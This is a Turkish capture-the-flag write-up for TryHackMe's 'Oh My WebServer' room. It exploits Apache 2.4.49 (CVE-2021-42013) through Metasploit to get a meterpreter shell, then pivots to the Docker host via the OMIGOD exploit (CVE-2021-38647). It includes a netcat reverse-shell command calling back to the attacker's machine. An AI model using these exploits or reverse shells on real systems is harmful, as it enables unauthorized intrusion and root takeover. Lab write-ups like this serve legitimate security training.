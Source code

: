 ```yaml
---
title: 'TryHackMe | Oh My WebServer WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [remote code execution]
render_with_liquid: false
---
```


## Özet

Oh My WebServer, Remote Code Execution zafiyetine sahip bir orta seviye bir web uygulamasıdır. Apache httpd'nin 2.4.49 sürümünde bulunan bu zafiyeti sömürecek ve sistemden shell alacağız. Sonrada aynı ağ içerisinde başka bir cihazın daha olduğunu öğrenecek ve cihazın üzerinde çalışan zafiyetli bir porttan yararlanarak sistemden tam yetkili olarak bir bağlantı alacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.247.179
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

Tarama sonucunda 80 portu üzerinde Apache httpd'nin 2.4.49 sürümünün çalıştığını gördüm. Bu sürüm üzerinde bir `Remote Code Execution` zafiyeti bulunuyor. Bu zafiyeti sömürmek için bir metasploitte bir exploit bulunuyor.

## Sömürü aşaması

```console
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> run
[*] Started reverse TCP handler on 10.21.66.61:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://10.10.247.179:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://10.10.247.179:80 - Attempt to exploit for CVE-2021-42013
[*] http://10.10.247.179:80 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] Sending stage (3045380 bytes) to 10.10.247.179
[*] Meterpreter session 1 opened (10.21.66.61:4444 -> 10.10.247.179:49630) at 2025-03-29 17:16:48 -0400
[!] This exploit may require manual cleanup of '/tmp/qKPGzNTp' on the target

(Meterpreter 1)(/bin) >
```

Modülü seçtikten sonra gerekli bilgileri doldurdum, exploiti çalıştırdım ve sistemden bir shell elde ettim.

## Yetki yükseltme

### root

`sysinfo` komutunu kullandıktan sonra sisteme atanan IP adresinin `172.17.0.2` olduğunu öğreniyorum.

```console
(Meterpreter 1)(/home) > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.10 (Linux 5.4.0-88-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

IP adresleri rastgele atılmadığından `172.17.0.1` adresinde de bir makine olduğunu düşündüm. Bu makinenin portlarını tespit etmek için bir port tarama aracına ihtiyacımız var. [Bu](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) adresten nmap'in derlenmiş halini indirip, karşı sisteme yüklüyorum.

```console
(Meterpreter 1)(/tmp) > upload nmap
[*] Uploading  : /home/appdone/nmap -> nmap
[*] Uploaded -1.00 B of 5.67 MiB (0.0%): /home/appdone/nmap -> nmap
[*] Completed  : /home/appdone/nmap -> nmap
```

Daha sonra tüm portları taramasını istediğimde aşağıdaki portları tespit etti.

```console
./nmap 172.17.0.1 -p-
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up (0.00034s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

Nmap sorun çıkardığından portların versiyonlarını görüntüleyemiyorum. Bunun yerine 5986 numaralı portu internette arattım ve [bu](https://github.com/AlteredSecurity/CVE-2021-38647) exploiti buldum. İndirdikten sonra çalıştırıp root haklarında bağlantıyı elde ediyoruz.

```console
python3 exploit.py
usage: exploit.py [-h] -t TARGETIP [-p TARGETPORT] [-c COMMAND] [-s SCRIPT]
exploit.py: error: the following arguments are required: -t/--TargetIP
python3 exploit.py -t 172.17.0.1 -p 5986 -c "busybox nc 10.21.66.61 1234 -e /bin/bash"
```

Bağlantıyı aldıktan sonra ise geriye sadece root.txt ve user.txt dosyalarından bayrakları almak kalıyor.

```console
cd /root
ls
root.txt
snap
cat root.txt
THM{7f14****011f}
find / -name user.txt 2>/dev/null
id
/var/lib/docker/overlay2/7bd13e3daf4d9139aff4d20f9dedfc340318dd7d2fc5cc6569f3db831a67ccee/merged/root/user.txt
/var/lib/docker/overlay2/b7c08e7595ad459eca41aeafc79338b5c809c1aec3296cff0263882f60a87b7e/diff/root/user.txt
uid=0(root) gid=0(root) groups=0(root)
cat /var/lib/docker/overlay2/b7c08e7595ad459eca41aeafc79338b5c809c1aec3296cff0263882f60a87b7e/diff/root/user.txt
THM{eacf***7ac1}
```
